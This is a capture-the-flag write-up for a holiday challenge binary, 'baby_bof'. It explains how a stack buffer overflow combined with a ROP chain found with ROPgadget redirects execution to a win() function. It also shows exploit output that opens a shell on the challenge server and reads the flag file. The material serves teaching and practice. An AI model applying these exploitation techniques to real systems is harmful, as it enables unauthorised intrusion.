

# Day 17

> Santa made available a service that accepts only the best of jokes. Try it out, binary is available and service is listening at elfs.owasp.si:40003.

[baby_bof](baby_bof)

Binary exploitation challenge. Let's analyze the file in Ghidra:



In order to get a flag, we need to jump to `win()` by using usual buffer overflow, while setting `EDI` and `ESI` registers to `0xdeadbeef` and `0x1337c0de`, respectively.

For the first step, we are going to use usual buffer overflow in `fgets` of `vuln()` function (60 bytes).

For the second step, we need to find some instructions in the binary itself which set `EDI` and `ESI` registers to a needed value. These instructions set which ends with `ret` instructions are named "gadgets" and are crucial part of [Return-oriented programming (ROP)](https://en.wikipedia.org/wiki/Return-oriented_programming).

I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) tool to find needed ROP gadgets:

```
$ ROPgadget.py --binary baby_bof | grep -E 'pop (.di|.si)'
0x0000000000400783 : pop rdi ; ret
0x0000000000400781 : pop rsi ; pop r15 ; ret
```

We needed EDI/ESI registers, but RDI/RSI would also work fine, we just need to add more bytes on the stack.

The exploit works this way: normal buffer overflow, setting EDI with a 0x400783 gadget, setting ESI with a 0x400781 gadget, adding address of `win()` to return there.

See the [full exploit](solution/solution.py) and the usage:

```
$ ./solution.py
[*] '../baby_bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to elfs.owasp.si on port 40003: Done
b'will need more than a simple joke this time...\n'
b'will this work?\n'
b'you made it to win land, no free handouts this time, try harder\n'
b'one down, one to go!\n'
b'2/2 bro good job\n'
[*] Switching to interactive mode
$ cat flag.txt
xmas{-BAby-Pl1s-CXme-H0me}
```
